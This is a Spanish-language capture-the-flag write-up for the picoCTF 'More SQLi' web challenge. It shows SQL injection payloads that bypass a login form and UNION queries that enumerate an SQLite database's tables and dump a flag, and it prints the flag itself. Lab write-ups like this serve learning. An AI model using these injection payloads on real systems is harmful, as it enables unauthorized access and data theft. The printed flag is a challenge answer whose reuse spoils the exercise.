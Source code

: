 ## Objetivo
Can you find the flag on this website.

Additional details will be available after launching your challenge instance.
## Solución

En este reto nos dan una pagina web con un login, recordando los retos pasados de web tratamos de ingresar con las credenciales comunes aplicando SQL:

como por ejemplo:
```
admin' OR 1=1-- -
admin' AND 1=1-- -
```

![More-SQLi](/imagenes/More-SQLi.png)
Intentando logramos pasar el login metiendo en Username y Password:
```
'or 1=1;--
```

Y vemos una barra de búsqueda:
![More-SQL 2i](/imagenes/More-SQLi(1).png)

Investigando un poco encontramos que al meter el comando:
```
123' UNION SELECT 1, sqlite_version(), 3;--
```

podemos ver la version de SQLite que usa:
![More-SQL 3i](/imagenes/More-SQLi(2).png)


Investigamos mas y encontramos el comando para enumerar las tablas de la base dee datos:
```
123' UNION SELECT name, sql, null from sqlite_master;--
```

Y nos regresa:
![More-SQL 4i](/imagenes/More-SQLi(3).png)

Y analizando la imagen vemos que hay una tabla llamada flag, asi que vemos su contenido con el comando:
```
123' UNION SELECT flag, null, null from more_table;--
```

Y encontramos la flag:
![More-SQL 5i](/imagenes/More-SQLi(4).png)

```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}
```
## Notas adicionales
## Referencias
[More SQLi](https://github.com/DanArmor/picoCTF-2023-writeup/blob/main/Web%20Exploitation/More%20SQLi/More-SQLi.md)
